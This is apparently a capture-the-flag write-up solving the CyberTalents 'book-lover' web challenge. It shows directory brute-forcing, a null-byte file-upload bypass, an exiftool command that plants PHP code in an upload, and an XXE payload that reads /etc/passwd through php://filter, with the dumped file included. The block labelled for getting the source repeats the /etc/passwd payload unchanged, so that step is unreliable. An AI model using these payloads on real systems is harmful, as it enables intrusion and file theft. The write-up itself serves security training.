





# Solve book-lover
#### https://cybertalents.com/challenges/web/book-lover


### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6mgjk31eotrvmej6zqdkgxu639-web.cybertalentslabs.com -x 403,404`

Nothing found 

### Try file upload .gif


### Analyze with burp

```http
POST /index.php HTTP/1.1
Host: wcamxwl32pue3e6mgjk31eotrvmej6zqdkgxu639-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------210704121221632483882569698550
Content-Length: 52973
Origin: http://wcamxwl32pue3e6mgjk31eotrvmej6zqdkgxu639-web.cybertalentslabs.com
Connection: close
Referer: http://wcamxwl32pue3e6mgjk31eotrvmej6zqdkgxu639-web.cybertalentslabs.com/index.php
Cookie: _ga_B38952S5RT=GS1.1.1718765785.1.1.1718765798.47.0.0; _ga=GA1.1.1474852010.1718765786; _gid=GA1.2.1593788188.1718765787; _clck=yv78z1%7C2%7Cfmr%7C0%7C1631; ajs_anonymous_id=79cb6015-fb56-43db-bbe9-121c0fe1885e; _clsk=6xoexu%7C1718765788508%7C1%7C1%7Cy.clarity.ms%2Fcollect; _fbp=fb.1.1718765789636.122478108392360263; _ga_S72LBY47R8=GS1.1.1718766980.1.1.1718767179.0.0.0
Upgrade-Insecure-Requests: 1

-----------------------------210704121221632483882569698550
Content-Disposition: form-data; name="name"

test
-----------------------------210704121221632483882569698550
Content-Disposition: form-data; name="books"; filename="1.gif"
Content-Type: image/gif
```

### Bypass xml restriction
#### Change Content-Type
```http
Content-Type: text/xml
```

we got `Only xml Extention Are Allowed`

#### null byte bypass
```http
Content-Disposition: form-data; name="books"; filename="1.gif%00.xml"
Content-Type: text/xml
```

Bypassed!!

### Embed PHP code to the file 
`exiftool -Comment="<?php show_source(./index.php); ?>" image.jpg -o exploit.php`

Upload the file and Intercept the request and edit it to bypass the restriction



But we can't access the directory of uploaded files to trigger the code.

### Try XXE

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<data>&example;</data>
```


decode base64 with `hURL -d "<string>"`

etc/passwd : 

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

Get the source code 
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<data>&example;</data>
```



*You can view the source in [index.php](index.php)*

The flag is in the source code

### Resources 
[File upload](https://book.hacktricks.xyz/pentesting-web/file-upload)

[XXE payloads](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)

>Find More on ==> github.com/MedhatHassan 
